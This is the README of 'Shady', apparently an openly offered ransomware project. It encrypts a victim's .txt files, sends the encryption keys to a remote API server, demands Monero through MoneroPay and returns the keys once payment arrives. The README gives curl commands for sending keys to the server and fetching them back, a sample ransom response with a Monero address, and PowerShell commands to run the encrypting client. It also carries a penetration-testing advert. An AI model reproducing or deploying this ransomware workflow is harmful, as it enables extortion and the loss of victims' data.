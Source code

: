 # Shady

Very basic ransomware implementation that encrypts files, sends encryption keys to the API server, requests Monero from the user. Uses [MoneroPay](https://gitlab.com/moneropay/moneropay) to track payments sent by the victim. Provides an endpoint for the user to download keys to decrypt their files if the payment has arrived.

>Now there's a MoneroPay powered ransomware that isn't the original Moneropay ransomware which wasn't powered by MoneroPay.\
-- crtoff

Do you need a pentest? Do you want to make sure your security tooling can effectively mitigate threats? Engage us here:

[![Digilol penetration testing services](https://kernal.eu/posts/xmpp-enumeration/digilol-pentest-banner.png)](https://www.digilol.net)

## Server
### POST /encrypt
```sh
curl -X POST http://baseurl:1337/encrypt -d "key=keystring"
```

#### Response
```
740f1fb1-c47d-4059-8104-accdc718a1b4 8BGoVn4r5mPL9qYjFmaNGyLKmVvHzQj6Z51YpPL67br9fynLsjaEG7PJaTpmjbUi7bWikXmaBTo7pWdbLo1CQMqiUFrBzPV 0.1
```

The format is as follows: [Payment ID] [Monero address] [Monero amount in float]

### GET /decrypt/{id}
```sh
curl -X GET http://baseurl:1337/decrypt/{payment_id}
```

#### Response
If the ransom was paid the response body will contain the key that will be used to decrypt the files.

### POST /callback/{id}
This endpoint is given to MoneroPay to callback.

## Client
Import as cmdlet:
```
Import-Module shady-client.ps1
```

Encrypt all files with .txt extension in the current working directory:

```
Shady-Client -Encrypt
```

Decrypt files once the ransom has been paid:
```
Shady-Client -Decrypt
```
